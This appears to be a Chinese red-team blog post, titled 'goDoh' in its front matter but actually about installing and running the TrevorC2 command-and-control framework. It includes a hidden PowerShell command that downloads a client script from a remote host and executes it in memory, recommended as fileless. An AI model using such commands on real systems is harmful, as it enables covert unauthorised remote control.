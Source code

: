 ```yaml
---
title: "goDoh"
layout: post
date: 2019-09-05
image: /assets/images/markdown.jpg
headerImage: false
tag:
- RedTeam
- 权限维持
category: blog
blog: true
author: DshSec
description: goDoh
---
```


### Trevorc2

#### 0x00(介绍)：
+ 项目地址：https://github.com/trustedsec/trevorc2  
+ 项目介绍：TrevorC2是一种客户端/服务器模型，用于通过可浏览的网站隐藏命令和控制。由于时间的不同和不使用POST请求进行数据提取，使得检测变得更加困难。TrevorC2分为客户端和服务器。在此项目中，提供了三种形式的客户端，包括python、C#、powershell版本。trevorc2_client.py支持Windows，MacOS和Linux。您可以对Windows进行字节编译以获得可执行文件。如果是使用windows，也可以使用trevorc2_client.ps1利用powershell进行使用。  


#### 0x01(安装):
安装时需要python环境，笔者测试过程中为python3环境  
```
git clone https://github.com/trustedsec/trevorc2.git
cd trevorc2
pip install -r requirements.txt
```
>*TIPS:*
在使用过程中服务器端无需太多的配置修改，建议修改CIPHER参数即可，该参数为链接秘钥，客户端和服务器端应当保持一致。
![](imgclip.png "imgclip.png")  
客户端中需要将配置文件中的$SITE_URL配置为自己服务器的站点。http://服务器IP


#### 0x02(使用):
服务端：
```
python trevorc2_server.py
```

客户端：
1. 使用powershell:  
```
	powershell.exe -nop -w hidden -ep Bypass -c IEX(New-ObjectNet.WebClient).DownloadString("[trevorc2_client.ps1文件远程地址]");
	powershell.exe -nop -w hidden -ep Bypass -c [trevorc2_client.ps1的本地路径]
```
建议使用第一种通过远程下载文件到内存中然后执行的方式进行，可以实现无文件。
2. 使用python
```
	python trevorc2_client.py
```
